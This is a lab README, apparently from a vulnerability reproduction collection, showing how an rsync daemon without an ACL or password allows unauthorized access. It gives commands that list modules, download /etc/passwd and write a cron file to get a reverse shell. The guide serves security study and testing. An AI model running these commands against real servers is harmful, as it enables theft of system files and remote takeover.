 # Rsync Unauthorized Access

[中文版本(Chinese version)](README.zh-cn.md)

Rsync is a data backup tool for Linux that supports remote file transfer through rsync protocol and ssh protocol. The rsync protocol listens on port 873 by default. If the target has enabled rsync service and hasn't configured ACL or access password, we can read and write files on the target server.

## Environment Setup

Compile and run the rsync server:

```
docker compose build
docker compose up -d
```

After the environment starts, we can access it using the rsync command:

```
rsync rsync://your-ip:873/
```

You can view the list of module names:

![](1.png)

## Vulnerability Reproduction

As shown above, there is a src module. Let's list the files under this module:

```
rsync rsync://your-ip:873/src/
```

![](2.png)

This is a Linux root directory, and we can download any file:

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

Or write any file:

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

We wrote a cron task and successfully got a reverse shell:

![](3.png)
